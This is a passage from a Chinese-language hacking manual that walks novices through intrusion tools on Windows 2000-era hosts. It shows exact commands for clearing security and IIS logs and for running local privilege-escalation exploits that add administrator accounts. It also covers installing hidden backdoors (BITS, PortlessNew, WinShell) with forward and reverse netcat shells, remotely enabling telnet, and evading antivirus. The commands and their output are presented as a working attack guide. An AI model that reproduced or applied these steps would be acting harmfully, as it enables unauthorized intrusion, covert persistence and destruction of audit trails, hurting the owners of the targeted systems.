(O) SeIncreaseBasePriorityPrivilege =
(X) SeLoadDriverPrivilege =
(O) SeCreatePagefilePrivilege =
(O) SeIncreaseQuotaPrivilege =
(X) SeUndockPrivilege
```

大概就是这些吧，各个参数的组合其实就是各个参数对应功能的组合，只要合法，可以组合出很多种，大家可以发挥想象力尽情使用；呵呵，反正这个命令也不像 format 那么危险。


## 4.11 elsave

这是小榕写的一个用来远程清除对方日志的程序，是个不错的小工具。

首先，工具在使用前，要先与对方建立一个 ipc$ 连接，当然，建立连接使用的用户最好是有管理员权限的，如果不能使用管理员的话，也要保证建立连接时使用的用户对日志有删除的权限才可以。

键入：elsave /? 来得到帮助信息：

```text
E:\hack-tool\elsave>elsave /?
usage: elsave [-s \\server] [-l log] [-F file] [-C] [-q]
Saves and/or clears a Windows NT event log. Version 0.4 19980907
-s \\server    Server for which you want to save or clear the log.
-l log         Name of log to save or clear.
-F file        Save the log to a file with this name. Must be absolute path to local file on the server for which you want to save the log.
-C             Clear the log.
-q             Write errors to the event log.
```

解释一下参数：

- **-s \\server** 在这里将指明 server 的地址，前面的 -s 是必须的。
- **-l log** 这是用来指明要清除的日志，日志默认情况下有三种：应用程序日志、安全日志和系统日志。在 -l log 中，它们分别被表示为：-l "application"、-l "security" 和 -l "system"。
- **-F file** 这就是将日志保存在一个指定的文件中。
- **-C** 加上此参数表示清除日志。
- **-q** 将错误信息写入日志。

讲一下常见的使用方法。清除应用程序日志、安全日志和系统日志的命令：

（先建立 ipc$ 连接，然后，使用以下三个命令）

```text
elsave -s \\192.168.0.1 -l "application" -C
elsave -s \\192.168.0.1 -l "security" -C
elsave -s \\192.168.0.1 -l "system" -C
```

具体就不解释了，对比一下参数就知道是什么意思了。

接下来的一个用法很有意思，那就是将日志保存到一个文件中，用这样的命令：

```text
elsave -s \\192.168.0.1 -l "system" -F c:\sys.txt
```

这样呢，就是将系统日志保存在了 C 盘根目录下的 sys.txt 文件中了。直接打开会发现，全是乱码，HOHO，看不到，不过，我们可以用记事本打开 C:\WINNT\system32\config 目录下的 SysEvent.Evt 文件，来做一个简单的对比，会发现，内容是一样的（图1）。

这是因为日志是有守护进程的。也许，大家认为杀掉那个进程就可以了，嘿，那个进程是 eventsvc，大家可以杀掉试试，还是不可以的，因为其守护进程对应的是服务。大家可以在服务中看到 Event Log 这一项，而且还会发现，该服务不能自己手动停止（如图3），因为其停止或是暂停按钮都是呈灰色不可用状态。

其实，有朋友也会想到直接查看这些日志内容的方法，那就是替换 C:\WINNT\system32\config 目录下的 SysEvent.Evt 文件，然后用事件查看器来查（呵呵，想法不错，奖励奖励～～～），不过，如果大家做一下就知道了，会收到报错信息（如图2）。

所以，我们只可能通过禁用服务来达到改写 C:\WINNT\system32\config\SysEvent.Evt 文件的目的，但是这又需要重新启动计算机才能实现服务的禁用，呵呵，麻烦啊。不过，如果大家有兴趣的话还是可以试试的。

关于这个工具也没什么其他好说的了，还说了这么多废话 ^o^

## 4.12 CleanIISLog

CleanIISLog.exe 是一个用于清除 IIS 历史记录的工具，它可以清除指定的 IP 的连接记录情况，而保留其他的 IP 记录。另外在清除记录成功后，CleanIISLog 还会在系统日志中将自己的运行记录清除掉。与 elsave 不同的是，CleanIISLog 只能在本地使用，因此我们要做的就是先成功地将这个工具上传到目标主机上。

至于使用什么方法上传，就要视具体情况而定了，比如可以使用 IPC$ 管道连接，使用 TFTP 从自己的电脑上下载，如果对方提供了 FTP 服务的话，可以直接通过 FTP 来上传，另外还可以从对方的系统上来登录自己的 FTP 服务器或是网络上的虚拟 FTP 服务器等。图1中我们使用对方开放的 FTP 服务来直接上传。

图1

```text
CleanIISLog.exe 的使用格式为：

CleanIISLog <日志文件名>|<.> <要清除的IP>|<.>

CleanIISLog . . 这种格式表示清除所有日志文件中的所有 IP 记录，不过这样做并不好，反而更容易暴露自己。
```

图2

我们登录到目标系统，可以使用远程溢出，或是对方提供的 telnet 服务或是其他的后门，但是一定要具有管理员权限。这是因为在清除日志时需要先停止这些日志的服务。在 CleanIISLog.exe 所在的目录下执行：**CleanIISLog . 192.168.0.231**。这样，CleanIISLog 就会清除所有日志文件中 IP 为 192.168.0.231 的历史记录了。从图2中我们可以清楚地看到，CleanIISLog.exe 在 3 月 12 日的 FTP 日志文件中发现了 IP 为 192.168.0.231 的记录并成功地清除掉了。

## 4.13 ERunAsX

ERunAsX.exe 是针对微软的一个可提升权限的漏洞的 exploit 工具。下面，先简单看一下微软对此漏洞的描述是什么样的：Windows 又出了新漏洞，可以将任意用户提升到 SYSTEM 级别的权限。漏洞出在 mss.exe 中的 DEBUG 子系统，所有普通用户都可以通过该漏洞获得对系统中任意进程或线程句柄的控制，从而可以以 SYSTEM 或管理员权限执行任意命令。

这个漏洞使用微软发布的 SP3 就可以修补了，所以说，这个 exploit 也只对 SP2 起作用而已。

使用方法异常简单。比如，你物理地接触了一台主机，用该主机上一个 USERS 组或是 GUESTS 组的账号登录了，并且从网上或者是其他什么途径得到了这个 exploit，那么接下来要做的就是进入 cmd，转到该 exploit 所在目录，使用命令：

### ERunAsX cmd.exe

这时候，会发现又多出了一个 cmd 的窗口，千万不要关掉它，因为这个新跳出来的 cmd 窗口便是拥有 system 权限的窗口，在里面执行任何命令都是以 system 执行的，呵呵，不用客气了，想怎么做，随便你吧。

> 如果第一次不成功的话，就再试一次，重试次数最好不要超过三次。如果三次还没有成功的话，放弃，不然的话将很有可能迎来系统的死机甚至崩溃……小心！

（在打了 SP3 的主机上使用该工具无数次也不会有任何反应，呵呵，去试试）

> **正确喽** 该工具一般情况下都会一次成功（如果对方确实是 SP2 的话）。

## 4.14 Winwmiex

winwmiex.exe 是针对 Windows 2000 WMI 服务的一个本地溢出程序，对于远程入侵者来说，可以用于远程服务器的权限提升，就好像 Windows 2000 的 debug 漏洞的使用一样。不过，针对 debug 漏洞的 erunasx.exe 对 SP3 无效，而 Winwmiex.exe 就可以。

以下测试是在我的 Win2000 Pro 上进行的。我们先以 GUEST 权限的账号登录进系统。

在图1中，我们可以看到，整个系统中只有 4 个账号：Administrator、Guest、sagi，而具有管理员权限的账号只有 Administrator 一个。

```text
D:\>net user

D:\>net localgroup administrators
```

```text
D:\>net user hack 135790 /add

系统发生 5 错误。

拒绝访问。
```

图2

添加账号失败。见图2，这说明我们只拥有 GUEST 权限，就像 ASP 溢出 Win2000 后得到的权限一样，是很低的，几乎做不了什么事儿。下面就让我们执行 winwmiex.exe 来看看。

## 入侵辅助

```text
D:\hacker\backdoor>winwmiex
xWMI -> win2k WMI 服务缓冲区溢出
WMIService -> CreateDirectoryExW -> RtlDosPathNameToNtPathName_U
该代码针对 win2k，简体中文、繁体中文、韩文版、日文版 SP0-3
源代码 ey4s<cooleyas@21cn.com>
2003-04-27
EXE 文件编译及汉化 Sagi <http://www.caiker.net>
感谢衰哥！

系统缺省的代码页长度是：936
开始搜索 FFD3 在 kernel32.dll
找到溢出代码位置 0x77E66BFF 在 kernel32.dll
写缓冲区溢出文件到 D:\hacker\backdoor\buff.txt
建立溢出可执行文件 D:\hacker\backdoor\xWMI.vbs
溢出可执行文件 D:\hacker\backdoor\xWMI.vbs
如果成功，溢出程序将会添加一个账号“xx”，口令为“1a!.9nH”
Microsoft (R) Windows 脚本宿主版本 5.1 for Windows
版权所有 (C) Microsoft Corporation 1996-1999. All rights reserved.

如果你可以看到这行，那么溢出极有可能已经成功了！
完成
```

图3

源代码中提示全为英文，为了能让众多的小菜看懂，我把这些提示翻译成了中文后才进行编译的。就像图3中提示的那样，如果我们看到“如果你可以看到这行，那么溢出极有可能已经成功了！”这一句话的话，溢出差不多就成功了。

```text
D:\hacker\backdoor>net localgroup administrators
```

图4

在图4中，我们已经可以看到，具有管理员权限的已经不仅仅只是 Administrator 账号了，还有一个“xx”账号，其口令为“1a!.9nH”，winwmiex.exe 在溢出时也提到了这点。

至此，winwmiex.exe 的本地权限提升已经成功了，换成 xx 账号重新登录系统，就可以拥有 Administrator 权限了。

如果是要在远程主机上使用的话，你唯一要做的就是将该程序成功地上传到目标主机上，然后去执行，当然通过 ipc$ 及 tftp 你可以试试。

最后一点要说的是，winwmiex.exe 执行时会在当前目录中生成 buff.txt 及 xwmi.vbs 两个文件，溢出成功后，可别忘记了删除呀！

## 4.15 xdebug

xdebug.exe 是一个针对 Windows NT/2000 的本地溢出程序，该程序利用的是 Windows 系统的核心部分 Windows Kernel 在利用调试器对错误信息进行处理时所存在的缺陷。入侵者利用这个缺陷可以在目标系统上以 administrator 权限进行任意的操作。该漏洞是 2003 年四月中旬才在网上公布的，应该说是一个比较新的漏洞。

接下来就让我们在本地电脑上对 xdebug.exe 的使用作一个详细的说明。

我们先使用一个具有 GUEST 权限的用户登录进系统。

一个，使用 net user 命令来尝试添加一个用户的时候，发生了错误，这说明我们的权限不够，见图1。下面我就执行一次 xdebug，看看效果如下：

```text
D:\>net localgroup administrators

D:\>net user hack 135790 /add
系统发生 5 错误。

拒绝访问。
```

图1：先使用 net localgroup 命令查看了一下本地 administrators 组中的用户，只有 Administrator。

```text
D:\hackdoor\backdoor\win0313\ex> xdebug

xDebug ---> windows kernel exploit for MS03-013
Written by cy4s<cooleyas@21cn.com>
2003-05-23

DEBUG EVENT ---> create process
DEBUG EVENT ---> load all
DEBUG EVENT ---> load all
DEBUG EVENT ---> except
shellcode:0x00409978
realcode:0x00409B7C
ESP=0012FE64  CS=0x1B  DS=0x23
FS=0x38
DEBUG EVENT ---> except
DEBUG EVENT ---> load all
DEBUG EVENT ---> load all
DEBUG EVENT ---> load all
DEBUG EVENT ---> load all
DEBUG EVENT ---> load all
Send shellcode to ntoskrnl completed!
Wait for exit!
DEBUG EVENT ---> exit process
```

见图2，同时，屏幕上也出现了一个 CMD SHELL 窗口，这就是我们想要的。看一下得到的这个 CMD SHELL 的权限有多大。

## 入侵辅助

图2

在图4中，我修改了 ey4s.bat 的内容，使用“net user hack 135790 /add & net localgroup administrators hack /add”来代替原来的“cmd.exe”，当然也可以使用“cmd.exe /c net user hack 135790 /add & net localgroup administrators hack /add”来代替。这样，假如溢出成功的话，就会自动地添加一个 hack 账号，密码为 135790，并且是具有 administrator 权限的。

重新启动系统，以 GUEST 权限账号登录进系统。

```text
D:\hacker\backdoor\win0313ex>net user hack 135790 /add

命令成功完成。

D:\hacker\backdoor\win0313ex>net localgroup administrators hack /add

命令成功完成。
```

然后当我们再使用 net localgroup 命令查看 administrators 组用户时，会发现已经多了一个具有管理员权限的账号 hack 了，见图3。

图3

事实上，当 xdebug.exe 溢出成功后，是以 administrator 权限来执行的一个 ey4s.bat 文件，而这个 bat 的内容就是 cmd.exe，等同于以 administrator 权限来执行 cmd.exe。但是为什么不让 xdebug.exe 来直接调用 cmd.exe，而要多一步来使用一个 bat 批处理文件呢？其实程序编制者也颇费了一番匠心，因为使用一个 bat 文件，我们就可以自由地通过更改 bat 文件的内容来达到让 xdebug 以我们的意思来执行命令，完成特定的任务。

```text
D:\hacker\backdoor\win0313ex>xdebug

xDebug: -> windows kernel exploit for MS03-013
Written by ey4s<cooleyas@21cn.com>
2003-05-23

DEBUG_EVENT --> create process
DEBUG_EVENT --> load dll
DEBUG_EVENT --> load dll
DEBUG_EVENT --> except
shellcode 0x00409978
realcode 0x00409B7C
ESP=0012FE64 CS=0x1B DS=0x23 FS=0x38
DEBUG_EVENT --> except
DEBUG_EVENT --> load dll
DEBUG_EVENT --> load dll
DEBUG_EVENT --> load dll
DEBUG_EVENT --> load dll
DEBUG_EVENT --> load dll
Send shellcode to ntoskrnl completed!
```

见图5，实际上 xdebug 仍然调用了 cmd.exe，在屏幕上会看到 cmd shell 窗口以及执行 net 命令添加用户，只是速度很快，一闪就过去了。

溢出成功了，hack 账号已经被成功地添加了，见图6。

对于该漏洞，微软也已经提供了补丁程序，但据反映，似乎安装上这个补丁程序后，系统的速度会变慢，不过我没有安装过这个补丁程序，所以具体如何我也不好说了。

## 4.16 ptsec

关于 Win2000 的本地溢出程序，已经介绍了有好几个了，下边我再介绍一个用于 Win2000 进程溢出的本地溢出程序 ptsec.exe 的使用。我曾对 ptsec 做过一个小小的溢出测试，发现只影响 Win2000 系统，对于 XP 及 Server 2003 无效。下边就让我们来看一下 ptsec 的使用。

我们先以 GUEST 用户登录进系统，此时添加用户发生错误。

看一下 ptsec 的具体使用帮助。

```text
D:\hacker\backdoor>ptsec
```

见图2，大多是显示及列出系统当前进程的参数；对于溢出来说，我们要使用的就是 -d1 这个参数，让 ptsec 自动选择可以溢出的进程并进行溢出。

图2

```text
D:\hacker\backdoor>ptsec /d1
```

屏幕上出现了一个 CMD SHELL 的窗口，见图3，下边让我们来看一下它的权限有多大。

```text
D:\hacker\backdoor>net user hack 135790 /add

命令成功完成。

D:\hacker\backdoor>net localgroup administrators hack /add

命令成功完成。
```

图3

溢出成功了，ptsec 直接调用了 cmd.exe。

图4

见图4，添加账号成功，我们已经得到了 ADMINISTRATOR 权限。

与另几个本地溢出程序相同的是，ptsec 也只能在图形界面下使用。这不能不说是一种遗憾。

## 4.17 local04011

MS04-011 是微软于 2004 年 4 月公布出来的一个安全公告，该公告包括了十几个级别不同的安全漏洞。我们在远程溢出章节中讲过的 ms04011asss2.exe 以及 winss!V02AutoHacker 就是利用了 MS04-011 中的两个非常严重的远程溢出漏洞，而我们下边要讲的 local04011ex.exe 则是根据 MS04-011 漏洞编写的一个本地溢出程序。

下边让我们来具体地看一看这个程序的使用。

我们先以 GUEST 权限登录远程主机，或者是利用漏洞得到目标主机的一个 GUEST 权限的 shell，此时因为我们不具有系统权限，所以是无法完成添加账号、开启关闭服务之类的操作的；

见图1。


图1

local04011.exe 的使用格式为 `local04011ex 自己IP 监听端口`，见图2。可以看出，这个程序使用的是反向连接方式。我们使用 nc 在本地监听一个端口，见图3。


图2


图3

接下来在对方主机上运行 local04011ex.exe。

```text
F:\test>local04011ex 192.168.0.1 813

local04011ex 192.168.0.1 813
```

不管程序执行成功与否，都没有什么提示，见图4。让我们来看一下刚才使用 nc 监听的那个窗口，如果成功的话，我们就会得到对方的一个 cmd shell 了，见图5。


图4


图5

该程序在 WIN2000+SP4 也可以溢出成功，但有一点要注意的是，有时候我们溢出后得到的权限并不是系统权限，会出现：

> 系统发生 1722 错误。
>
> RPC 服务器不可用。

的提示，就像我们在使用 WIN SSL 的自动攻击程序时所碰到的情况一样。

## 4.18 T-SysCmd-1.0

T-SysCmd-1.0 既是一个后门类的程序，同时又属于一个提升权限的程序。虽然对于 WIN2000 系统来说，可以提升权限的程序有许多，但是那些程序都是基于图形界面的。而对于使用远程溢出或是 TELNET 得到的一个普通权限的 CMD SHELL 来讲，如何将 GUEST 权限直接提升到 ADMINISTRATOR 权限一直是个难题，特别是针对目前的 WIN2000+SP3、WIN2000+SP4。当然了，方法也不是没有，比如更换系统服务等等，但是这种方法必须要求对方的系统重新启动才可以。好了，下边让我们来看一下 T-SysCmd-1.0 的具体使用。

E-Mail：Brief@fz5fz.org

HomePage：www.fz5fz.org && www.safechina.net

Date：08-06-2003

```text
Install Device Driver ntkrnlmp32 OK !
```

```text
C:\WINNT\t-syscmd-1.0 /?
```


根据提示，T-SysCmd-1.0 已经安装成了，见图2。要注意的是，我们在安装时必须要拥有 administrator 权限才行，不然是没法进行安装的。

具体的使用格式见图1，主要包括三项：

- `-Install`：安装 T-SysCmd-1.0
- `-Upgrade`：提升当前 CMD SHELL 的权限
- `-Remove`：删除已经安装的 T-SysCmd-1.0

下边我们重新以 GUEST 权限的用户来远程登录进目标系统，此时我们只拥有普通的 GUEST 权限，见图3。

```text
C:\WINNT\t-syscmd-1.0 -Install

T-SysCmd v1.0 for System Privileged Command, by Brief
```

```text
C:\WINNT>net user abc /add

系统发生 5 错误。

拒绝访问。
```


图3

图4

像这种情况我们应该遇见过，比如 ASP、MEDIA 及 FP30REG 的远程溢出等等。

```text
C:\WINNT>T-SysCmd-1.0 -Upgrade
T-SysCmd v1.0 for System Privileged
Command by Brief

E-Mail: Brief@fz5fz.org
HomePage: www.fz5fz.org && www.safechina.net
Date: 08-06-2003

Upgrade System Privilege Successfully
Good Luck !
```

```text
C:\WINNT>net user abv /add
命令成功完成。

C:\WINNT>net localgroup administrators abv /add
命令成功完成。
```


根据提示，我们应该已经提升权限成功了，见图4。让我们看一下，现在我们是否已经拥有 administrator 权限了。

图5

见图5，我们成功地添加了一个名为 abv 的帐号，并将其加到了管理员组中。


## 第五章

## 后门攻击的潜伏

在本章节中，主要介绍了几个功能强大的后门程序 BTS、PortlessNew、Hxdef100，另外还有 mydoom、sasser 病毒的后门利用工具，还有用于隐藏（克隆）帐号的 superdoor3 及小榕的 ca 等。这些程序可以更好地帮助你来实现长期隐藏地控制目标主机的目的。


## 5.1 BITS

BITS 是小榕于 2003 年 9 月份发布的一款后门程序，BITS 实际上是 Background Intelligent Transfer Service 的缩写。这个后门只能在 Windows 2000/xp/2003 系统下使用。BITS 的特点主要有：在进程管理器中看不到，也就是看不到 BITS 的进程，平时并不打开任何端口，提供正向连接与反向连接。

让我们先来看一下 BITS 后门服务的安装。

```text
F:\test>rundll32 BITS.dll,Install sagi
rundll32 BITS.dll,Install sagi
```

不管安装是否成功，都不会有任何提示，这一点是其欠缺之处，见图1。命令格式中的 “sagi” 为特征字符串，用于激活 BITS。倘若无法成功的话，我们还可以使用 `rundll32 BITS.dll,Install rasauto <特征字符串>` 的格式来进行尝试安装。


安装好服务后，我们可以使用 nc 连接目标系统的任一开启的端口，像 80、135、139、443、445 什么的都可以。

```text
E:\sagi>nc -vv 192.168.0.128 80
sagi.mshome.net [192.168.0.128] 80
<Http> open
sagi@dancewithdolphin[xell]:813
```

连接成功后，输入 `sagi@dancewithdolphin[xell]:813`，其中 “sagi” 为我们刚才设定的特征字符串，“@dancewithdolphin[xell]:” 是使用正向方式连接的固定格式，我们不能做任何改动，“813” 为后门开启的端口，这个端口我们自己随便选择。输入两次回车后，会看到系统的一些 banner 信息，然后就会断开与对方 80 端口的连接。不过，此时后门应该已经被激活了，见图2。


让我们连接对方的 813 端口看看。

```text
E:\sagi>nc -vv 192.168.0.128 813
sagi.mshome.net [192.168.0.128] 813
<?> open
Microsoft Windows 2000 [Version 5.00.2195]
<C> 版权所有 1985-2000 Microsoft Corp.

E:\WINNT\system32>
```

成功地在 813 端口上得到了对方的一个 cmd shell，见图3。


图3

再让我们来看一下如何使用反向连接方式。先使用 nc 在本地监听一个端口，见图4。

```text
E:\sagi>nc -vv -l -p 1234
listening on [any] 1234
```


图4

像刚才一样，我们使用 nc 连接对方开放的一个端口。

```text
E:\sagi>nc -vv 192.168.0.128 80
sagi.mshome.net [192.168.0.128] 80 <http> open

sagi@dancewithdolphin[rxell]:192.168.0.1:1234
```

连接成功后，我们输入 `sagi@dancewithdolphin[rxell]:192.168.0.1:1234`，“sagi” 为特征字符串，“@dancewithdolphin[rxell]:” 为使用反向方式连接的固定格式，注意这个和上边的那个格式稍有不同，那个是 “xell”，而这个是 “rxell”，“192.168.0.1” 为我们自己的 IP，也就是监听的 IP，“1234” 为反向连接的端口号，见图5。


图5

实际上此时，BITS 后门已经在我们设定的端口上工作了。我们回到刚才监听的那个 cmd 窗口上，就会发现已经成功地得到了对方的一个 cmd shell 了，见图6。


图6

最后再来让我们看一下如何卸载掉 BITS 后门。我们可以使用 **rundll32 BITS.dll,Uninstall** 来卸载掉 BITS 后门，重新启动系统后就一切完成了。

## 5.2 PortlessNew

PortlessNew 是一个与小榕的 BITS 同类型的后门程序，该后门程序只能应用在 win2000/xp/2003 系统中。PortlessNew 使用 svchost.exe 来启动，平时并不打开任何端口，这使得管理员要想检测出这个后门来很困难。PortlessNew 的连接方法有正向连接及反向连接两种，除此之外，PortlessNew 还拥有许多功能，主要包括了检测克隆帐号、克隆帐号、清除日志、删除系统帐号、枚举系统帐号、http 下载、安装查看终端服务以及修改终端服务端口、查看系统所有 IP、查看系统信息、注销系统、关闭系统电源、重启系统、关闭系统等等。

首先将 PortlessNew 服务安装到目标系统上，将 portlessinst.exe 及 svchostdll.dll 上传到系统的 WINNT\SYSTEM32 目录下，放在其他目录下也是可以的，接着安装服务。

```text
F:\test>portlessinst -install sagi
135790
```

“sagi” 就是与目标系统打开的端口连接成功后要输入的验证字符串，“135790” 是密码，这个密码在使用正向连接上后门打开的端口时需要输入，使用反向连接的话，就不需要输入这个密码了。如果以后想更改验证字符串及密码的话，可以使用 `portlessinst -set 新的验证字符串 新的密码`，重新启动后门服务或是重新启动系统后，修改就生效了。

如果一切顺利的话，会显示安装成功的提示。接下来，我们要启动服务。

```text
E:\test>net start iprip
```

```text
net start iprip
Intranet Services 服务正在启动
Intranet Services 服务已经启动成功。
```

好了，服务已经启动成功了，下面我们可以连接目标系统了，见图1。


```text
E:\sagi>nc -vv 192.168.0.128 80
sagi.mshome.net [192.168.0.128] 80 (http) open
sagi:813
```


连接上 80 端口后，我们输入验证字符串及密码，也就是 `sagi:813`，验证字符串及密码之间别忘了 “:” 号。按两次回车，屏幕上会出现对方 80 端口的 banner 信息，然后会断开连接，但实际上 PortlessNew 已经响应了我们的服务了，见图2。

## 后门

我们刚才使用的是正向连接的方式，设定了 PortlessNew 开启的端口为 813，我们使用 nc 来连接看看。

```text
E:\sagi>nc -vv 192.168.0.128 813
sagi.mshome.net [192.168.0.128]:813
<?>
Enter Password: 135790

Welcome To Portless BackDoor

[Syrinx]#
```

输入密码后，成功连接 PortlessNew 后门，图3。


是不是感觉和以往使用的那些直接得到对方 cmd shell 的后门很不一样？我想各位都使用过 ftp 吧，当使用 ftp 连接上 ftp 服务器后，我们的操作是基于 ftp 命令的。PortlessNew 和这类似，PortlessNew 也有属于自己的一些命令。

**sysinfo** 是显示系统信息，包括 CPU 类型及主频、内存大小、操作系统类型、系统目录、显示卡类型、硬盘分区情况等，见图4。


**installterm 端口号** 是开启系统中的终端服务，并指定使用端口号。倘若对方系统中已经运行了终端服务的话，自然是安装不成功的。

**terminalport 3345** 重新指定终端服务所使用的端口号为 3345，图5。


**shell** 是得到对方的 cmd shell，图6。


除了以上的几个命令外，还包括：

- **checkclone**：检测系统内的克隆账号
- **idclone** 账号 要克隆的帐号 密码：克隆一个账号
- **cleanevent**：删除系统日志
- **deluser** 用户名：删除用户
- **listip**：显示系统所有 IP
- **terminalport**：查看终端服务所使用的端口
- **http://ip/文件名 保存文件名**：实现从 HTTP 上下载文件
- **logoff**：注销系统
- **poweroff**：关闭电源

| 命令 | 说明 |
|---|---|
| reboot | 重新启动系统 |
| shutdown | 关闭系统 |
| exit | 退出后门 |

再让我们来看一下是如何使用反向连接方式的。

先用 nc 在本地监听一个端口，见图7。

```text
E:\sagi>nc -vv -l -p 1234
listening on [any] 1234 ...
```


```text
E:\sagi>nc -vv 192.168.0.128 80
sagi.mshome.net [192.168.0.128] 80
<http>: open
sagi|192.168.0.1:1234
```


和刚才一样，先与对方建立一个连接，然后输入 `sagi|192.168.0.1:1234`，前边的 “sagi” 是验证字符串，中间的 “192.168.0.1” 为我们自己的 IP，也就是监听的 IP，后边的 “1234” 为监听的端口号。两次回车后，断开连接，见图8。

回到使用 nc 监听的那个 cmd 窗口，会发现我们已经成功地连接了 PortlessNew 后门，见图9。


最后再让我们来看看如何删除这个后门。

首先要停掉 PortlessNew 的服务：`net stop iprip`。稍等一会儿，等服务彻底停止并释放了全部东西后，再使用 `portlessinst -uninstall` 来删除，这样就会将保存在注册表内的验证字符串及密码删除掉。

## 5.3 WinShell

winshell 是 janker 开发的一款 telnet 后门程序，使用 winshell 主程序生成的 telnet 后门仅仅 5K 多一点点，HOHO，厉害厉害，啥也别说了，看看工具吧。

down 下来的 winshell 是一个配置端（图1），使用它就可以生成 winshell 后门程序。


在这里，有些项目是可以自己改变的，一个一个地介绍一下：

- **port**：telnet 的端口，随意你怎么配置，例如：5277
- **password**：为了保护你的肉鸡，在这里设置一个密码
- **password banner**：例如，在这里设置了 “input password”，那么，在 telnet 上去之后，就会显示 “input password” 以提示你输入密码
- **SvcName**：注册的服务名
- **DisplayName**：在进程里显示的进程名
- **Description**：对服务的描述，可以自己写得逼真一些，让人以为是 Windows 自己的服务

- **Url Address**：当选择了左边的 “DownExec” 后，这里就可填写地址，写上你要下载后门的地址
- **Destination Filename**：目标文件名，自己起就好了
- （选择了 “DownExec” 最好一同选择 “AutoInstall”，这样就可以在下载后自动运行了）
- **RegKeyName**：这里是在注册表中的键值名

根据提示，完成上面的所有配置后，点一下 “make”，然后选择路径和自己想要的文件名，就可以生成服务端了。服务端大小为 5K 多一些，算是很小的后门程序了。

在生成后门程序后，同级目录下会生成一个同名的 txt 文件（图2），这里记载着你的服务端的配置信况。如果忘了自己的服务端是如何配置的，可以在这里查看。


关于 winshell 介绍就这么多了，用法也很简单。先恭祝大家成功了，呵呵~~~

## 5.4 opentelnet

对于菜鸟来说，opentelnet 绝对是一款非常不错的入侵工具，其作用与 NTLM.exe 一样，但是比 NTLM.EXE 的使用要更简单，也更方便。最主要的是 opentelnet 可以自定义开启的 telnet 端口，不像 NTLM.EXE 只能使用 23 端口。让我们来看一下 opentelnet.exe 的使用，见图 1。

唯一的就是，我们必须要拥有一个对方系统中的帐号，并且是具有 Administrator 权限的。至于如何得到对方的帐号，在这儿我就不写了，其实许多溢出程序都可以令你很轻松地做到这点。让我们具体地看一下 opentelnet.exe 的使用。

```text
G:\hacker\backdoor>opentelnet

************************************************
Remote Telnet Configure, by rofdon
Email: rofdon@263.net
opentelnet

Usage: OpenTelnet.exe \\server username password NTLMAuthor telnetport
************************************************
```

```text
G:\hacker\backdoor>opentelnet \\211.152.251.24 sagis 135790 0 78
```

见图 2，NTLMAuthor 是系统所使用的 NTLM 验证的方法，0 代表不使用 NTLM 方式验证，仅以用户名及口令方式进行身份验证；1 代表先使用 NTLM 方式进行验证，如验证失败，再使用用户名及口令方式进行身份验证；2 代表始终以 NTLM 方式进行身份验证，这也是系统所默认使用的身份验证方式。我们选择 0 或 1 都可以。“78”是我选择的要对方开启 telnet 服务所使用的端口，用的端口。在系统中，默认 telnet 服务使用的是 23 端口。

如 opentelnet.exe 执行成功，会提示我们“telnet service is started successfully!”，telnet 服务已经成功运行等信息。

接下来我们就可以使用 telnet 进行远程登录了。

```text
G:\hacker\backdoor>telnet 211.*.*.* 78
```

见图 3，在“login:”输入我们的帐号，在“password:”后输入密码。

出现如图 4 的画面，就说明我们已经成功地登录进了对方的系统中，并且是拥有 Administrator 权限的。

opentelnet.exe 的方便之处就在于，我们只要能够拥有一个有系统管理员权限的帐号就可以了。不像 NTLM.EXE，必须得把 NTLM.EXE 上传到对方的系统中，然后再成功执行，才能开启对方的 23 端口。

## 5.5 Remoxec

当我们拥有一台远程主机的系统帐号，通常的做法都是先与对方建立一个 IPC 管道连接，然后执行我们的命令或是开启对方的远程登录（telnet）服务。随着人们对于网络安全意识的提高，现在我们已经很难与远程主机成功地建立 IPC 管道连接了，对方不是使用了防火墙拦截，就是在系统中已经禁止了 IPC 管道连接。我们手中虽然还有对方的系统帐号，可是还能做什么呢？

Remoxec.exe 就是一款专门解决该问题的一个极有用的小程序。Remoxec.exe 最大的特点就是不依赖于 IPC，而是使用了 RPC 或 WMI 服务来与远程主机建立连接并执行我们的命令，当然前提是我们必须拥有对方系统内具有 administrator 权限的系统帐号才行。

Remoxec.exe 运行后的主界面见图 1 所示，一共有两种执行的选择，分别是 RPC（TASK Scheduler）以及 DCOM（WMI）。

我感觉使用 DCOM（WMI）效果会更好一些，“Computer”栏输入远程主机的 IP 地址，“[Domain\]Account”栏输入远程主机的帐号，“Password”栏输入帐号的密码；在“Command”栏中输入我们要执行的命令，在这儿，我们输入“net start telnet”来开启对方的 telnet 服务，最后点击最下方的“Executing”按钮就可以了，Remoxec.exe 会提示我们成功完成，见图 2。

最后我们执行“telnet 192.168.0.103”来验证一下对方的 telnet 服务是否已经成功地开启了，见图 3，我们登录成功了。

## 5.6 GUIControlTelnet

GUIControlTelnet 是一个基于 GUI，也就是图形界面的远程、本地开启 telnet（远程登录）服务的工具，它的操作非常简单，使用过 opentelnet.exe 后，会很快地掌握它的使用。

程序启动后，选中“启动远程主机的 Telnet 服务”，在下方的“主机 IP”栏中输入目标主机的 IP 地址，“用户名”一栏中输入对方系统内的账号，该账号必须要有 administrator 权限，这和 opentelnet 是一样的；在“密码”一栏中输入该账号的密码，“启动端口”输入 telnet 要使用的端口号，点击“开始”，顺利的话，启动成功的信息就会显示在下方的窗口中了；“恢复远程主机的 Telnet 服务”则是将远程主机的 Telnet 状态恢复到我们修改前，在启动了对方的 telnet 服务后，再使用这个选项，就是远程关闭刚才开启的 telnet 服务了，见图 1。

在 GUIControlTelnet 的目录下还有两个可执行文件，starttelnet.exe 以及 resumetelnet.exe，事实上我想应该是 GUIControlTelnet 在图形界面下调用了这个程序，才实现了远程开启、关闭 telnet 服务的功能，所以这个程序我们也是可以单独来使用的。

starttelnet.exe 的使用格式为：

```text
starttelnet <本地主机>
starttelnet <远程主机> <远程主机帐号> <帐号口令> [telnet 使用的端口]
```

如果口令为空的话，可以使用“NULL”代替，不输入 telnet 使用的端口，默认会使用 23 端口，见图 2。

resumetelnet.exe 的使用格式为：

```text
resumetelnet <ip> <username> <password>
```

见图 3。

虽然 GUIControlTelnet 实现的功能与我们前边讲过的 opentelnet.exe 一样，不过，因为 GUIControlTelnet 是最近才在网上公开的，也许暂时不会被杀毒软件所查杀，而不像 opentelnet.exe，每次使用前都要把自己的杀毒软件关掉才行。

## 5.7 dtx3389.bat

